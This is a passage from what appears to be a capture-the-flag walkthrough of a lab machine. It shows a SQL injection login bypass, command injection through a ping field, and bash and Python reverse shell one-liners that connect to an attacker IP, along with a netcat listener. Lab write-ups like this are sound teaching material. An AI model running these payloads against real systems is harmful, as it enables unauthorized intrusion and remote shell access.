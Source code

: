 we will find `admin' --` will work, and we login in this page.

![[Cronos-07.png]]

## OS command Execute
The commands being used on the welcome page are “traceroute” and “ping” so this specific functionality of the application clearly talks to the operating system. Let’s see if it’s vulnerable to command injection. Add the following in the input field and execute the code.

```bash
8.8.8.8 & whoami
8.8.8.8 & ls
```

![[Cronos-08.png]]
![[Cronos-09.png]]

We get back the following result. It’s definitely vulnerable! The web server is running with the privileges of the web daemon user www-data. Since we can run arbitrary commands using this tool, let’s get it to send a reverse shell back to our attack box.

First, intercept the request with Burp and send it to Repeater (right click > Send to Repeater).

![[Cronos-10.png]]

Go to pentestmonkey [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and grab the bash reverse shell. Change the IP address and port to those applicable to your attack machine.

```
/bin/bash -i >& /dev/tcp/10.10.14.14/3333 0>&1
```

Highlight the entire string and click on CTRL+U to URL encode it.

![[Cronos-11.png]]

Set up a listener on the attack machine.

```bash
nc -vlp 3333
```

Execute the request. It doesn’t send a reverse shell back. Let’s try python.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Full text:

```bash
8.8.8.8 & python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
